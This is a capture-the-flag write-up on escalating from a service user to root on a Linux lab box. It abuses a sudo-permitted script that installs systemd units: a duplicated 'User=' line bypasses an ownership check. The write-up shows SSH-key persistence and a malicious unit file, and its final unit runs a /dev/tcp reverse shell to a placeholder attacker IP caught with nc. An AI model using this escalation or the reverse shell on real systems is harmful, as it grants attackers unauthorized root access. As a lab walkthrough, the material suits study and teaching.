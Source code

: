 # OMM API root
*Disclaimer: We solved this challenge after the CTF had ended. During the ctf we got to the very last step trying to bypass the if-check, but ran out of time.*

<p align="center">
    <img src="img/omm_api_root_chall.png" alt="Challenge" width="500"/>
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` doesn't do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, but does not turn out to be very useful for us.

[/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most interesting script that we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` in it and starts `systemctl` services for each `.service` file located in that directory. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following if-check:
```bash
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```